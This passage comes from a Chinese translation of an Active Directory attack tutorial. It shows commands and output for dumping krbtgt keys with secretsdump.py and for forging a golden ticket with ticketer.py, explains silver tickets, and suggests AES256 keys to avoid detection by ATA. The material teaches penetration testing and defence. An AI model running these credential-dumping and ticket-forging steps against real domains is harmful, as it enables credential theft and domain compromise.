 ```bash
###krbtgt keys retrieved with secretsdump.py
$ secretsdump.py 'contoso.local/Administrator@192.168.100.2' -just-dc-user krbtgt
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:fe8b03404a4975e7226caf6162cfccba:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:5249e3cf829c979959286c0ee145b7e6b8b8589287bea3c83dd5c9488c40f162
krbtgt:aes128-cts-hmac-sha1-96:a268f61e103134bb7e975a146ed1f506
krbtgt:des-cbc-md5:0e6d79d66b4951cd
[*] Cleaning up...
```

同样的，拿到服务用户Kerberos密钥创建自定义ST，即[Silver Ticket ](https://en.hackndo.com/kerberos-silver-golden-tickets/#silver-ticket)。服务用户的密钥可以通过查看用户登录的域计算机的 [lsass process](https://zer1t0.gitlab.io/posts/attacking_ad/#lsass-credentials)来获得，比如 [Kerberoast ](https://zer1t0.gitlab.io/posts/attacking_ad/#kerberoast)， 或[dumping the Active Directory database ](https://zer1t0.gitlab.io/posts/attacking_ad/#domain-database-dumping)。

我们可以通过修改PAC用户组向票证用户（即便不存在此用户）授予高权限，但必须使用krbtgt密钥对票据PAC进行签名

 [mimikatz kerberos::golden](https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos#golden--silver) command or the [impacket ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py) 可以创建黄金/白银票据 ，最好用AES256 密钥避免[being detected by solutions like ATA](https://www.blackhat.com/docs/us-17/thursday/us-17-Mittal-Evading-MicrosoftATA-for-ActiveDirectory-Domination.pdf)

```text
###Create golden ticket with ticketer.py
$ ticketer.py -domain-sid S-1-5-21-1372086773-2238746523-2939299801 -domain contoso.local Administrator -aes 5249e3cf829c979959286c0ee145b7e6b8b8589287bea3c83dd5c9488c40f162
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for contoso.local/Administrator
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in Administrator.ccache
```

黄金票据20min必须使用（ [must be used in 20 minutes](https://passing-the-hash.blogspot.com/2014/09/pac-validation-20-minute-rule-and.html),），不然PAC信息会被KDC检查，验证是否正确。

白银票据只能让你访问有其密码的用户的服务的权限，例如一个没有权限的域用户用管理员密码生成对应服务白银票据来冒充管理员
